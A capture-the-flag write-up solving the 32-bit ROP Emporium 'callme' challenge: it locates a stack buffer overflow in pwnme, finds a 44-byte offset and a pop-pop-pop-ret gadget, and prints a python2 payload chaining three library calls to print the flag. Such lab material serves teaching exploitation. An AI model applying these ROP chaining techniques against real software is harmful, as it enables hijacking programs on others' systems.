 ## Description:
> The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain.
> ![[Pasted image 20231215182344.png]]
## Write-up:
![[Pasted image 20231217151601.png]]
As before, the `NX` bit is set and there are some interesting functions names.
Analysis in Ghidra shows `usefulFunction` calls the three external library functions mentioned in the challenge instructions. The instructions state that to win, the 3 external functions must be called with specific parameters in a specific order in order to decrypt the flag.
![[Pasted image 20231217152005.png]]
The function `pwnme` contains a buffer overflow vulnerability, which I can use to create a ROP chain on the stack to call each of the required functions (with their respective parameters) in the correct order.
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,local_2c,0x200);
  puts("Thank you!");
  return;
}
```
Using `gdb-peda` I found the offset from the buffer to the return address of `pwnme` on the stack:
![[Pasted image 20231217152505.png]]
As in the previous challenge, the offset is 44 bytes.
Now, because I want to call 3 functions, each with arguments, I am going to need a way to properly set up the stack each time before the next function in the chain is called.
In the previous challenge, it was possible to reuse the `call system()` instruction, but in this case, reusing the `call callme_one` instruction would result in the wrong return address being set and execution returning to this point after `callme_one` is finished. This is a problem because I then need to call the other two `callme` functions. This means, in this case I can't use the existing `call` instructions and instead need to set up the stack manually.
In x86, when calling a function, the stack should look like:
```
address to jump to,
return address,
args
```
Because I need to call 3 functions, I need to do this 3 times. The problem, however, is that if I just set the return address to `callme_two`, its return becomes `arg1` and its first parameter becomes `arg2`, which is not correct. 
So, I will need some ROP gadget to clean up my stack by `pop`-ing the 3 parameters from the stack, before returning to the next function in the chain.
![[Pasted image 20231217163219.png]]
Using `ROPgadget`, I have found one gadget which pops 3 values from the stack and saves them in registers. I will use this gadget to clean my stack between each function call. It will remove the 3 parameters from the stack, and then `ret` to the next value on the stack, which will be my next function call.
For the addresses of each function I need to call, I will use the address of the "THUNK" functions for each of these, as the actual functions are external and loaded in at runtime. I found these addresses using Ghidra.
Putting all of this together, my exploit should look like:
```
44 bytes of junk

addr of callme_one # 0x080484f0
addr of ROP gadget # 0x080487f9
args:
	0xdeadbeef
	0xcafebabe
	0xd00df00d

addr of callme_two # 0x08048550
addr of ROP gadget
args

addr of callme_three # 0x080484e0
dummy addr # 0x00000000
args
```
I generate the payload like so:
```c
python2 -c 'print \
"\x00"*44 + \
"\xf0\x84\x04\x08" + \
"\xf9\x87\x04\x08" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" + \
"\x50\x85\x04\x08" + \
"\xf9\x87\x04\x08" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" + \
"\xe0\x84\x04\x08" + \
"\x00\x00\x00\x00" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" \
' > payload.txt
```
Executing `callme32` with this payload gives the following output:
![[Pasted image 20231217165300.png]]
As you can see, the ROP chain worked and the flag was successfully "decrypted" and printed, by chaining together 3 external functions with specific parameters.